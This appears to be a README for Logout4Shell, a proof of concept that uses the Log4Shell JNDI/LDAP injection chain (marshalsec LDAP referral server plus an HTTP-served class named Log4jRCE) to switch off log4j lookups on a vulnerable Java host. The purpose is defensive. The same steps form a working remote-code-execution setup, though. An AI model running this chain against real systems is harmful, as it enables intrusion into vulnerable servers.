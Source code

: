 # Logout4Shell

> Using the exploit to enable the log4j FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS configuration for java version <= 1.8.0.121

Step to reproduce：

1. Download the POC, build, make some changes, and run the POC

   1.1 git clone https://github.com/cybereason/Logout4Shell.ssh

   1.2 build it - mvn package

   1.3 cd target/class

   1.4 run the webserver - "python3 -m http.server 8888"

2. Download, build and run an ldap server

   2.1 git clone https://github.com/mbechler/marshalsec.git

   2.2 mvn package

   2.3 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"

3. Run the victim

   3.1 cd Logout4Shell

   3.1 run mvn exec:java -Dexec.mainClass="log4j" -Dcom.sun.jndi.ldap.object.trustURLCodebase=true 

Expected result 
- reloading the log4j configuration with FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true
# Logout4Shell
